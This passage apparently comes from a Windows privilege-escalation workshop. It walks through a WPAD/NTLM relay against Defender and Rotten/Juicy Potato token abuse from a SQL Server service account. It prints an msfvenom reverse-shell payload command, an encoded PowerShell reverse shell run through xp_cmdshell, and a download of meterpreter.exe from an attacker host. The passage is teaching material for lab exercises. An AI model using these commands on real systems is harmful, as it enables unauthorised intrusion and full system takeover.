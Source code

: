 Let's talk through some of the steps here:

We setup a local spoofer for WPAD, then we trigger the vulnerability by asking Defender to check for updates. Because Defender is running as NT\SYSTEM we can get a hash to relay to our own SMB server. Once we relay this to our local SMB server we can then execute a command.

### Let's Talk Rotten/Juicy Potato ###

Sometimes you get access to a machine running as a service account. For the purposes of our exercise I installed Microsoft SQL Server 2012 on my Windows 7 machine. I have xp_cmdshell execution on the box, which means I can leverage that into a reverse shell.

https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato

Since I am running as a service account:
````
SQL> xp_cmdshell whoami
output                                                                             

--------------------------------------------------------------------------------   

nt service\mssqlserver                                                             

NULL                                                                               

SQL> 

````

We know we can abuse tokens to get an SEImpersonate token that will allow us to impersonate and then become the NT\SYSTEM user.
Because getting Rotten Potato/Juicy Potato binaries is painful, we are going to use Metasploit for this exploit.

So let's generate our meterpreter payload: 
````
root@kali:~/LPEWorkshop# msfvenom -p windows/meterpreter/reverse_tcp LPORT=1337 LHOST=YOURIPHERE -f exe > meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
````
Now let's transfer that to our victim machine by getting a reverse shell.
````
SQL> xp_cmdshell "powershell.exe -exec bypass -enc REVSHELLHERE"
````
Then transferring the file:

````
PS C:\Windows\system32> IEX (New-Object System.Net.WebClient).DownloadFile("http://10.22.6.122/meterpreter.exe", "C:\Windows\Temp\meterpreter.exe")
````

